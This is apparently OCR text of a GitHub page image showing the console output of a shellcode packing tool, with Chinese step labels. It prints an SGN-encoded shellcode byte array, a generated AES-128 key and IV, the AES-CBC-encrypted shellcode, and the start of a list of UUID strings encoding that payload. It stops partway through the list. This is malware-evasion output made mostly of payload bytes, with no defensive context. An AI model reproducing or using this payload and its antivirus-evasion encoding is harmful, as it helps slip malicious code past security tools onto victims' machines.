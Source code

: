 ```
[+] 进行sgn编码后的shellcode: 0xe8, 0xe7, 0x00, 0x00, 0x00, 0xeb, 0x04, 0xf7, 0xc8, 0xb9, 0xd8, 0x00, 0x00, 0x00, 0x74, 0x28, 0x35, 0x53, 0xcf, 0x00, 0x00, 0x00, 0x16, 0x22, 0x6c, 0x73, 0x4c, 0xd0, 0x90, 0xbb, 0x18, 0x06, 0xc5, 0x9d, 0xc8, 0x9c, 0x24, 0x28, 0x6e, 0xc8, 0x1b, 0xc4, 0x02, 0x02, 0xfe, 0x16, 0x94, 0x94, 0x94, 0x54, 0x22, 0x23, 0xa4, 0x15, 0x15, 0x6d, 0xc6, 0x56, 0x50, 0xdb, 0x71, 0x79, 0xf2, 0x98, 0x8a, 0xfd, 0x4f, 0x57, 0x16, 0x1d, 0x17, 0x31, 0xfe, 0xf9, 0x25, 0xd9, 0x40, 0x38, 0x22, 0xce, 0xec, 0x91, 0x5c, 0x51, 0x4e, 0x45, 0x47, 0x31, 0x5b, 0x0a, 0x7d, 0x0f, 0x1f, 0x00, 0x32, 0x08, 0x7b, 0x37, 0xd6, 0x28, 0xcb, 0x83, 0x60, 0x31, 0x5e, 0x25, 0x7c, 0x5a, 0x5b, 0x76, 0xfd, 0x84, 0x5a, 0x45, 0x7f, 0x20, 0x43, 0x67, 0xea, 0xc3, 0xd5, 0x1a, 0x95, 0xb9, 0x66, 0x91, 0x9a, 0x13, 0xa4, 0x5c, 0x32, 0xa7, 0x4d, 0xac, 0x21, 0xa5, 0x5c, 0xd9, 0xfd, 0x40, 0x14, 0x4a, 0x31, 0x61, 0x45, 0xa2, 0x6d, 0x0b, 0x78, 0x62, 0x15, 0x1e, 0x36, 0x28, 0x85, 0x40, 0xc3, 0xb7, 0x3a, 0xbb, 0x6b, 0xda, 0x5e, 0x72, 0xa0, 0xfb, 0x5e, 0xbf, 0xd6, 0x6a, 0xc3, 0xbc, 0xa2, 0xc1, 0x1e, 0x32, 0xb5, 0x57, 0xa2, 0x8f, 0x02, 0x66, 0x57, 0xd0, 0x11, 0xa3, 0xa3, 0xa3, 0x03, 0x83, 0x8b, 0xa4, 0xaf, 0xbe, 0xc5, 0xb0, 0x11, 0x4a, 0xb0, 0xc1, 0x5b, 0xcd, 0x59, 0xff, 0x10, 0x8d, 0xee, 0xe9, 0x3c, 0xfc, 0x02, 0x7e, 0x74, 0x02, 0xf9, 0xd1, 0x9a, 0x5f, 0xda, 0x99, 0x6a, 0xc6, 0x55, 0x3f, 0xbf, 0x12, 0xcd, 0xd6, 0x35, 0x84, 0xe6, 0x79, 0x97, 0x02, 0x70, 0x15, 0x89, 0xc0, 0xeb, 0x04, 0x01, 0x5d, 0xcd, 0x58, 0x5b, 0xc1, 0x4b, 0x06, 0x17, 0xeb, 0x04, 0x06, 0x79, 0xc5, 0xf8, 0x0f, 0x46, 0xd2, 0x81, 0x6b, 0x0a, 0x28, 0xd7, 0x99, 0x0a, 0xeb, 0x04, 0xc6, 0xe0, 0xfd, 0x61, 0xc1, 0x4b, 0x0e, 0x9d, 0xeb, 0x04, 0xac, 0x15, 0xdb, 0x80, 0x81, 0x73, 0x12, 0x37, 0x5c, 0xf7, 0x42, 0xeb, 0x00, 0xeb, 0x04, 0xd5, 0x7e, 0xed, 0x06, 0x81, 0x73, 0x16, 0xc7, 0x90, 0xbb, 0x18, 0xeb, 0x04, 0x71, 0x5f, 0x24, 0x89, 0x81, 0x6b, 0x1a, 0x04, 0x41, 0x8f, 0xb1, 0xeb, 0x04, 0x15, 0x91, 0x47, 0xfa, 0x81, 0x6b, 0x1e, 0x9c, 0x24, 0x28, 0x8c, 0xeb, 0x04, 0x9b, 0x0f, 0x5b, 0x0a, 0x81, 0x73, 0x22, 0x38, 0x1f, 0xf5, 0xf8, 0xff, 0xe3

[+] Generated AES key: 0x36, 0x37, 0x54, 0x4c, 0x37, 0x4d, 0x78, 0x53, 0x69, 0x52, 0x53, 0x59, 0x32, 0x47, 0x49, 0x67

[+] Generated IV (16-byte): 0x52, 0x42, 0x62, 0x4c, 0x6e, 0x69, 0x4f, 0x5a, 0x44, 0x44, 0x43, 0x4d, 0x6d, 0x6e, 0x58, 0x
63

[+] Using AES-128-CBC encryption

[+] 进行加密后的shellcode：0x11, 0xef, 0xfd, 0x48, 0x48, 0x69, 0x4f, 0x7e, 0xa7, 0x8d, 0x7d, 0x9a, 0x3c, 0xaf, 0x0b, 0x2f, 0xfc, 0xc7, 0x1f, 0xaa, 0xaf, 0x8d, 0x3b, 0x2f, 0x55, 0x55, 0x0e, 0xa1, 0x95, 0x62, 0x85, 0xc3, 0xc1, 0xa5, 0x67, 0x82, 0x65, 0x38, 0x90, 0x39, 0x20, 0x67, 0x86, 0x6a, 0x5c, 0x18, 0x53, 0x1b, 0xa1, 0x87, 0x1e, 0x9e, 0x70, 0xb1, 0x2e, 0x38, 0x67, 0x0d, 0xe7, 0x2f, 0x3e, 0x3f, 0x49, 0x17, 0xaf, 0x2d, 0x98, 0xcd, 0x68, 0x7d, 0x84, 0x49, 0x35, 0x4d, 0xa5, 0xc5, 0xe3, 0x89, 0xa7, 0x5f, 0x86, 0x6a, 0x72, 0xfa, 0x95, 0x27, 0x60, 0xe7, 0x6f, 0x3a, 0x62, 0x7e, 0x07, 0x1f, 0xc8, 0x11, 0x89, 0xc0, 0x34, 0xb4, 0x0f, 0x65, 0xe6, 0xe3, 0x8e, 0xdb, 0x78, 0x4e, 0x29, 0x51, 0xa2, 0xb2, 0xbf, 0xc8, 0xe7, 0x74, 0x5c, 0xb6, 0x98, 0xec, 0x25, 0xe4, 0x85, 0x9a, 0x08, 0xdc, 0xaf, 0xe9, 0x55, 0xa5, 0xf7, 0x5e, 0x23, 0x66, 0xc1, 0x68, 0xb0, 0xd1, 0x58, 0xa2, 0x68, 0x76, 0x4d, 0xcd, 0x95, 0x5e, 0xf0, 0x1e, 0x2f, 0xd9, 0xca, 0x01, 0xe7, 0x0b, 0x9e, 0x0a, 0x4c, 0x35, 0xe1, 0x83, 0x31, 0xfc, 0x82, 0xa7, 0xbb, 0x20, 0x5d, 0xe2, 0xe0, 0xc3, 0xff, 0xbb, 0x2f, 0xfa, 0xed, 0xdd, 0x3c, 0xfd, 0x37, 0x3f, 0x5b, 0x19, 0x58, 0xa3, 0xa9, 0xf2, 0x0f, 0x77, 0x41, 0x5e, 0x72, 0xb8, 0x20, 0x61, 0x8b, 0x24, 0x64, 0x12, 0x64, 0x99, 0x73, 0x1f, 0xe2, 0x64, 0xa4, 0x07, 0x84, 0xfe, 0x26, 0x4d, 0x29, 0x89, 0xde, 0xcd, 0x5a, 0x91, 0x48, 0x22, 0x4e, 0x22, 0x20, 0x8a, 0x05, 0x03, 0xb8, 0xea, 0x30, 0x86, 0x36, 0x62, 0xbf, 0xdd, 0x71, 0x4d, 0xd2, 0x0c, 0x56, 0x35, 0x8c, 0x87, 0x39, 0x26, 0xc6, 0xc1, 0xef, 0xad, 0xf5, 0x62, 0x2c, 0x09, 0xe3, 0xab, 0xf3, 0x18, 0xb7, 0xa8, 0x2a, 0xcc, 0xdb, 0xf0, 0xd4, 0x38, 0x4e, 0x58, 0x14, 0xa6, 0x4b, 0x7e, 0x9e, 0xba, 0x3e, 0x4f, 0xf3, 0xe8, 0x60, 0xb0, 0x46, 0xa9, 0x5d, 0x98, 0xb9, 0x7d, 0x0a, 0x35, 0x9d, 0xbf, 0x29, 0x8a, 0x79, 0x99, 0x96, 0x8e, 0xd7, 0xbc, 0x77, 0x36, 0xa5, 0xe6, 0x39, 0x3f, 0x32, 0x70, 0x5e, 0x75, 0x9b, 0xd7, 0xb9, 0x24, 0xa9, 0x24, 0x78, 0x80, 0x70, 0x9f, 0x80, 0x2a, 0x43, 0x0f, 0x04, 0xea, 0xd0, 0xba, 0x22, 0x2c, 0x4e, 0x20, 0x64, 0x65, 0x8a, 0x15, 0xc7, 0x28, 0x32, 0x4e, 0xa3, 0x8c, 0x16, 0xf7, 0x3d, 0xee, 0x79, 0x8b, 0x75, 0x4b, 0xdc, 0x3a, 0x27, 0xb6, 0xfc, 0x41, 0x9b, 0x40

[+] Generated UUIDs:"48fdef11-6948-7e4f-a78d-7d9a3caf0b2f",
                    "aa1fc7fc-8daf-2f3b-5555-0ea1956285c3",
                    "8267a5c1-3865-3990-2067-866a5c18531b",
                    "9e1e87a1-b170-382e-670d-e72f3e3f4917",
                    "cd982daf-7d68-4984-354d-a5c5e389a75f",
                    "fa726a86-2795-e760-6f3a-627e071fc811",
                    "b434c089-650f-e3e6-8edb-784e2951a2b2",
                    "74e7c8bf-b65c-ec98-25e4-859a08dcafe9",
                    "5ef7a555-6623-68c1-b0d1-58a268764dcd",
```